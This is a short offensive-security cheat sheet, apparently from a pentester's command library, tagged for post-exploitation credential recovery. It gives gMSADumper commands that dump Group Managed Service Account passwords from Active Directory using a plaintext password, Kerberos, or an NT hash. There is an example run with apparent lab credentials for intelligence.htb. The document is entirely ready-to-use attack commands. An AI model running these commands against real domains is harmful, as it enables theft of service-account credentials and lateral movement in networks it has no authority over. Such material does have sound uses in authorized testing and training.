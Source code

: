 # gmsadumper

% Active directory, password, ReadGMSAPassword, Group managed service accounts 
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER  

## get passwords

https://github.com/micahvandeusen/gMSADumper
Example: gMSADumper.py -u tiffany.molina -p NewIntelligenceCorpUser9876 -l 10.10.10.248  -d intelligence.htb

```
gmsadumper -u <user> -p <password> -l <dc> -d <domain_fqdn> 
```

## get passwords (kerberos auth)

https://github.com/micahvandeusen/gMSADumper

```
gmsadumper -k -l <dc> -d <domain_fqdn> 
```

## get passwords (PtH auth)

https://github.com/micahvandeusen/gMSADumper

```
gmsadumper -u <user> -p <nt_hash> -l <dc> -d <domain_fqdn> 
```

